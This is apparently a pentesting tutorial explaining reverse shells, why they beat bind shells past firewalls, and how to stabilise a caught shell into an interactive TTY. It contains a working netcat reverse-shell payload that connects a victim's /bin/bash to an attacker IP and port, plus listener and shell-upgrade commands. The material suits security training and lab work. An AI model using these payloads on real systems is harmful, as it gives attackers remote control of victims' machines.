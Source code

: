 # Reverse Shell Playbook/Walkthrough

## What is a reverse shell
A reverse shell is an activity that all attackers are looking to utilize as an objective in every engagement. There are many ways to 'pop' or 'catch' a reverse shell, and ultimately force a reverse shell to come back to you from a victim, but what even is that?

So normally when you have a service running on a machine, like Apache or IIS, you'll have an open port on that device, like port 80. As long as the network is configured with the proper port forwarding rules and VLAN configuration, users will be able to interact with the port over the network and gain access to their favorite website. This is what we'd consider a bind shell. In other words if I open a bind shell, I'm opening a port on the victim and connecting directly to it.

But there's a problem...

## Reasons why we use reverse shell over bind shell
A bind shell works great when you're directly connected to the same network that your victim is connected to. But what if this attack is happening over the internet? What if the victim is on another VLAN?

This is where a reverse shell comes in handy because you can force the victim to send a shell back to your attacker's machine, so it's essentially reversed. The attacker box becomes the server in this scenario so you never have to open a port on the victim.

You tell the victim to send a shell **_back to you_**.

This essentially bypasses the firewall issue that you'd have with a bind shell.

Without port forwarding rules already configured, from an external perspective a bind shell would be completely useless. 

By not requiring a port forwarding rule because firewalls allow all traffic outbound by default (known as egress fw rules), we don't have to worry about the firewall blocking us and our reverse shell will make it's way out of the network the same way every other packet does, via routing.

All we have to do is make sure we have our own local port forwarding rule on our local router forwarding the reverse shell from the WAN to our internal IP. It is possible to see this reverse shell and grab your public IP from the payload, but as a pentester doing ethical work, we're okay with that.

## Process for Reverse shell
- Listener (think: _'thing that catches reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)
- Payload (think: _'thing that sends you a reverse shell'_)

## Basic reverse shell
Open up port forwarding if doing attack over the internet

Attacker:
```bash
nc -nlvp 4444
```
Victim:
```bash
nc -e /bin/bash 192.168.122.209 4444
```
#### Additional Shell Info
It's very infrequent that you'd see a machine have netcat (nc) already installed, and even more rare to see one old enough to still support -e (yeah they figured out that's malicious obviously) so you'll likely need to use another type of shell. Determining the right shell to use could be it's own walkthrough.

![https://www.revshells.com/](https://www.revshells.com/)

#### Lazy upgrade way, works great on windows
```bash
sudo apt install rlwrap
rlwrap nc -lvp 4444
```
## Enable fully-interactive shell 
##### (allows tab complete, arrows keys, etc)(ONLY WORKS ON LINUX, use rlwrap in front of listener for windows)

#### Validate python or python3 on the machine
```bash
python -V
python3 -V
```
#### Make sure to use the correct version of python for next command!
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
SHELL=/bin/bash script -q /dev/null (if your machine doesn't have python)
```
#### Next, background the shell to start sending raw input, this bypasses your local interpreter (shell) and sends your keystrokes to the reverse shell (victim)
```
Ctrl + Z (background the shell)
stty raw -echo; fg
reset
```
If it asks what TERM to use, set it to **xterm-256color**, or whatever your attacker machine's $TERM is set to. 

### Validate Terminal Type
```
echo $TERM
export TERM=xterm-256color
echo $TERM
```
You should now be able to clear your terminal and use text editors like nano and vim.

### Validate Shell for User
```
echo $SHELL
export SHELL=/bin/bash
echo $SHELL
```
I'm not sure what this does exactly, if anyone knows please ping me!
### Validate size of screen
```
echo $TERM && tput lines && tput cols (run on attacker)
stty rows 38 columns 116 (run on victim)
```
Note: you'll want to run the second command with numbers from the first command, so you're setting the victim's shell size to your local kali machine's shell size. 
This helps prevent wordwrap from distorting the shell and will help other tools like nano and vim work as expected.

Note2: It's possible to have a scenario where your shell and your nano/vim sizes don't align on a target. You can use the 'w' command to validate the size of the terminal through a guessing process.

You should now have a fully functional shell, where even sending a ^C (Ctrl + C, normally intended to stop processes) won't cause the shell to die. 
